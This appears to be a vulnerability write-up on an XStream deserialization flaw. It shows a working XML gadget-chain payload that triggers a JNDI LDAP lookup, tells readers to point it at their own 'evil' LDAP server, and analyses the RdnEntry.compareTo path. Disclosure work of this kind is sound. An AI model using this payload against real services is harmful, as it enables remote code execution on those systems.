```xml
                  <loadFactor>0.75</loadFactor>
                  <threshold>525</threshold>
                </default>
                <int>700</int>
                <int>1</int>
                <string>lazyValue</string>
                <sun.swing.SwingLazyValue>
                  <className>javax.naming.InitialContext</className>
                  <methodName>doLookup</methodName>
                  <args>
                    <string>ldap://localhost:1099/EvilObj</string>
                  </args>
                </sun.swing.SwingLazyValue>
              </hashtable>
              <javax.swing.UIDefaults>
                <default>
                  <defaultLocale reference="../../../../../../../javax.swing.UIDefaults/default/defaultLocale"/>
                  <resourceCache/>
                </default>
              </javax.swing.UIDefaults>
            </javax.swing.UIDefaults>
          </tables>
        </default>
      </javax.swing.MultiUIDefaults>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class="com.sun.org.apache.xpath.internal.objects.XString">
      <m__obj class="string">test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

when you try to reproduce this vulnerablity, you should change the line 37's content. For example, changing the `ldap://localhost:1099/EvilObj` to `ldap://your-evil-ldap-server:port/Namespace`

# #3 Analysis

First of all, XStream can deserialize a tag with `<sorted-set>` using the TreeSet/TreeMapConverter. And the recover process will call some object's `compareTo` function and not in the default blacklist.

So I try to find a Object with `compareTo` function. Using `javax.naming.ldap.Rdn$RdnEntry.compareTo()`

```java
public int compareTo(RdnEntry that) {
    int diff = type.compareToIgnoreCase(that.type);
    if (diff != 0) {
      return diff;
    }
    if (value.equals(that.value)) {     // try shortcut
      return 0;
    }
    return getValueComparable().compareTo(
      that.getValueComparable());
}
```

